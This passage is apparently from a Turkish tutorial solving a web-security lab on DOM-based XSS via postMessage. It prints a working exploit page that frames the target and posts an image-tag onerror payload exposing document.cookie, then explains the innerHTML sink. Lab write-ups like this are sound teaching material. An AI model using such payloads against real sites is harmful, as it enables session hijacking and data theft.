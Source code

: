 ‘DOM XSS using web messages’ lab ortamının başarıyla çözülmesi

# **Neler Yaptık? Özetleyelim**

Özetleyecek olursak bu sistemde bir kullanıcı olduğunu düşünelim. Bu kullanıcı hacker.com’a yani hacker’ın yönettiği web sitesine gitmektedir. Hacker.com’a giden kişinin tarayıcısına giden veri bu şekildedir, yani hacker.com bu içeriği dönmektedir;

```
<html>
  <iframe id="target" src=""> </iframe>

  <script>
    var target = document.getElementById("target");

    target.addEventListener("load", function () {
      target.contentWindow.postMessage(
        "<img src=x onerror=alert(document.cookie)>",
        "*"
      );
    });
    target.src =
      "https://0add005f042c0f178189085900c9006b.web-security-academy.net/";
  </script>
</html>
```

hacker.com bu şekilde bir HTML içeriği dönünce de browser buradaki ‘***target.src***’ kısmında verilen adresi iframe ile açar. Bu adres de hedef sitenin adresidir, örneğin; ***hedef.com*** gibi düşünelim. Buraya bir HTTP Request’i gönderilir, kullanıcı oturumu açık ise tüm cookie’ler de bu HTTP request’ine eklenmiş olur. Ardından da hacker.com’daki JavaScript koduna göre bu sayfanın yüklenmesi tamamlandığında oradaki iframe’e bir ***postMessage*** gönderilir. Gönderilen postMessage içerisinde de bir ***XSS Payload***’ı bulunmaktadır.Bu postMessage iletildiğinde ise hedef sitedeki JavaScript koduna göre gelen postMessage parse edilerek bir ‘***content***’ elde edilir. Oluşan ‘content’ yeni oluşturulan div’in element’ine innerHTML aracılığıyla yazılır. Bu şekilde sonuç olarak XSS açığı meydana gelmiş olur. **Dolayısıyla hacker, kurban kullanıcının mevcut oturumu ile hedef siteye yönelik istediği JavaScript kodunu çalıştırabilir hale gelmiş olur.**

Tüm bu yaşananların modellendiği şekile de buradan ulaşabilirsiniz;

![Untitled](0x09%20770e9a14727f44d080ea40a453968369/Untitled%2015.png)
